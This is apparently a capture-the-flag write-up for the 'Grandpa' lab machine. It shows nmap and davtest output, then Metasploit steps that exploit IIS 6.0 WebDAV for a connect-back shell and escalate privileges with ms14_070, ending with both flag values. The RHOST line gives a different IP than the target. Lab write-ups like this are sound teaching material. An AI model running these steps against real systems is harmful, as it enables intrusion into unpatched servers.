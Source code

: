 ### IP
`10.10.10.14`

# Recon

### nmap
`nmap -sC -sV 10.10.10.14 -o Grandpa.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 23:36 EST
Nmap scan report for 10.10.10.14
Host is up (0.076s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Tue, 24 Nov 2020 04:39:56 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.92 seconds
```
* Looks like a server running with MS IIS 6.0 WebDAV

### davtest
`davtest -url 10.10.10.14`
```
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                10.10.10.14
********************************************************
NOTE    Random string for this session: tdJ553v
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     html    FAIL
PUT     pl      FAIL
PUT     shtml   FAIL
PUT     php     FAIL
PUT     cfm     FAIL
PUT     jhtml   FAIL
PUT     txt     FAIL
PUT     cgi     FAIL
PUT     jsp     FAIL
PUT     aspx    FAIL
PUT     asp     FAIL

********************************************************
/usr/bin/davtest Summary:
```
* Welp. Nothing we can do here


# Exploitation

* I'm gonna be honest. I tried just about every exploit online and tried generating my own shellcode and nothing worked. I couldn't bypass upload restrictions to upload a reverse shell and I couldn't do the buffer overflow either.

* However, I was much more succesful with things after resetting the machine. If you can't get anything to work, I suggest doing that.

### metasploit
* On `msfconsole`, we can run the following:

1. `search webdav iis 6.0`
2. `use exploit/windows/iis/iis_webdav_scstoragepathfromurl` in order to get remote code execution
3. `set RHOST 10.10.10.15`
4. `set LHOST tun0` in order to have the machine connect back to yours
5. `run`
6. `ps` to find processes running with `NT AUTHORITY\SYSTEM`
7. `migrate 3416` (pick the process id that your machine is running as described above)
8. `bg` to put the session into the background (keep note of the number)
9. `use post/multi/recon/local_exploit_suggester` in order to find scripts for privesc
10. `set SESSION 1` (use whatever session number your session was backgrounded to)
11. `set SHOWDESCRIPTION true` to see more details for each suggestion
12. `run`
13. `use exploit/windows/local/ms14_070_tcpip_ioctl` because we want to elevate the system
14. `set SESSION 1`
15. `set LHOST tun0`
16. `run`
```
* Now, we should have admin access. If not, go through the process and migrate steps again
* We can cd to `C:\Documents and Settings\Harry\Desktop`
        * Using the `cat` command on the meterpreter or the `more` command on the shell, we get the user flag: `bdff5ec67c3cff017f2bedc146a5d869`

* We can cd to `C:\Documents and Settings\Administrator\Desktop>` to get the root flag: `9359e905a2c35f861f6a57cecf28bb7b`

